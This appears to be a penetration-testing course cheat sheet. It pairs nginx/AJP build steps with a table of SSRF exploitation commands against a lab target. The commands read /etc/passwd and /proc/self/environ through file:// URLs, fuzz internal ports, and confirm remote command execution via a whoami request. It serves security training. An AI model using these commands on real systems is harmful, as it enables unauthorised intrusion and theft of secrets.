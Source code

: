 ## Nginx Reverse Proxy & AJP

| **Command**   | **Description**   |
| --------------|-------------------|
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz` | Downloading nginx |
| `tar -xzvf nginx-1.21.3.tar.gz` | Extracting nginx tar file | 
| `git clone https://github.com/dvershinin/nginx_ajp_module.git` | Cloning nginx_ajp source code |
| `cd nginx-1.21.3` | Navigating to nginx directory |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server |
| `make` | GNU make utility to maintain groups of programs |
| `sudo make install` | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx` | Starting the nginx server |


## SSRF Exploitation Example

| **Command**   | **Description**   |
| --------------|-------------------|
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238` | Scanning the ports of the external target |
| `curl -i -s -L http://<TARGET IP>` | Interacting with the target and following redirects| 
| `nc -lvnp 8080` | Starting a netcat listener to test for SSRF |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"` | Testing for SSRF vulnerability |
| `python3 -m http.server 9090` | Starting the python web server |
| `sudo pip3 install twisted` | Installing the ftp server |
| `sudo python3 -m twisted ftp -p 21 -r .` | Starting the ftp server |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`| Retrieving a remote file through the target application (HTTP Schema) |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"` | Retrieving a local file through the target application (File Schema) |
| `for port in {1..65535};do echo $port >> ports.txt;done`|  Generating a wordlist of possible ports |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30` | Fuzzing for ports on the internal interface |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"` | Interacting with the internal interface on the discovered port| 
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"` | Interacting with the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"` | Discovering web application listening in on localhost |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"` | Modifying the URL to bypass the error message |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -` | Requesting to disclose the /proc/self/environ file on the internal application |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"` |  Retrieving a local file through the target application  |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"` | Confirming remote code exeuction on the remote host |
| `sudo apt-get install jq` | Installing jq| 
